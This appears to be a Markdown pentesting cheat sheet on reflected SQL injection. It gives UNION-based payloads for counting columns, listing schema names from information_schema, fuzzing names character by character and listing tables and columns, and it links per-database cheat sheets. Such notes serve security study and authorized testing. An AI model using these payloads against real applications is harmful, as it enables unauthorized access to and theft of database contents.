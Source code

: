 	- EACH DATABASE TYPE REQUIRED DIFFERENT THINGS (STATEMENTS)
		- Oracle          ---> [Oracle Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
		- Microsoft     ---> 
		- PostgreSQL ---> [Postgre Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
		- MySQL         ---> [MySQL Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
		  ...

---

## <u>Steps SQL Injection (Reflected)</u>

- Steps for SQL Injection (Database)
	- Find the number of columns      
	- Find the name of those Database 
	- Find the table                               
	- Find the columns names
	- Find Database Value
	- Reformat Value (easier to read)

- Reminder
	- Add a + between space if used in URL
	- Number of NULL = Number of Columns
	- UNION query are only for Reflected injection (Blind Injection --> Dont see response)

- Find Number of Columns 
```
' OR 1=1 ORDER BY 1;-- -          ---> Change the 1 to 2,3,4,5.. (Request respond a 500 error mean that the number before was the amount of columns in DB)

or

' UNION SELECT NULL,NULL...--     ---> Number of null before error = number of columns
```

- Find the Name of Database
```
' UNION SELECT schema_name, NULL, NULL... FROM information_schema.schemata;-- -  
        ---> Add the NULL to equal the number of columns found in previous task

'+UNION+SELECT+NULL,'FUZZ%',...--       ---> Fuzz parameter with a-z% to find the name of the string (Once found 1 letter, XFUZZ% and continue...)
```
	- information_schema.schemata     ---> Depend on the type of DB

- Find the Table Name
```
' UNION SELECT table_name, NULL,... FROM information_schema.tables--

#Find the Table Name inside Database
' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema = 'DATABASE_FOUND_PREVIOUS_TASK' --
```
	- information_schema.columns      ---> Depend on the type of DB
	- table_name                      ---> Depend on the type of DB
	- table_schema                    ---> Depend on the type of DB
